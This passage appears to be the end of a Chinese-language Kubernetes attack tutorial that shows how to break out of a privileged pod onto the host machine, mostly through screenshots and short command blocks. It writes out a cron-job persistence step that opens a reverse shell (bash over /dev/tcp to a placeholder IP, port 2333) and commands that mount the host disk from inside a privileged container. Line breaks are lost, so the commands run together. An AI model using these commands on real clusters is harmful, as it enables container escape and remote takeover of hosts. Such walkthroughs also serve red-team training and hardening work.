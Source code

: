 ![](https://mmbiz.qpic.cn/mmbiz_png/Q11SaBKBJunqxljhhqonXic7EsnlaDaReS5cNqFMlNylJynBZaIScDnibytc1Dvh1KpPrVxI8ibT7kB5Rg3SC1nTA/640?wx_fmt=png&from=appmsg "")  
  
选择创建的Pod，点击执行  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Q11SaBKBJunqxljhhqonXic7EsnlaDaRemYb2MJicYENwIia8PQjTeWicRFAtPcCw9m6CNaPXujYR1zMQpdt6MDiauQ/640?wx_fmt=png&from=appmsg "")  
  
通过计划任务获得宿主机shell  
```
chroot sechostecho 'bash -i >& /dev/tcp/x.x.x.x/2333 0>&1' > /etc/cron.hourly/test.shchmod +x /etc/cron.hourly/test.sh
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Q11SaBKBJunqxljhhqonXic7EsnlaDaRefq0P8SNcvvk1rr1nP1ZlLsjoXhkOhiaqiaopJkvUtFbibkBfgcRb2PQJw/640?wx_fmt=png&from=appmsg "")  
  
或者直接进入特权容器，特权容器可以挂载宿主机磁盘路径到容器中。  
```
fdisk -lmkdir /sechostmount /dev/dm-0 /sechost/chroot /sechost/
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Q11SaBKBJunqxljhhqonXic7EsnlaDaReYetvYVau9ibPYFUp8DqBicZ5eNr93rKibvALwJq5dBbGt60r9EHY31d8w/640?wx_fmt=png&from=appmsg "")  
## 0x05 参考  
  
https://kubernetes.io/zh-cn/docs/concepts/overview/working-with-objects/  
  
https://zhuanlan.zhihu.com/p/97605697  
  
https://zhuanlan.zhihu.com/p/365759073  
  
https://www.jianshu.com/p/477974212ba8  
  
https://cloud.tencent.com/developer/article/2000490  
  
   
  
  
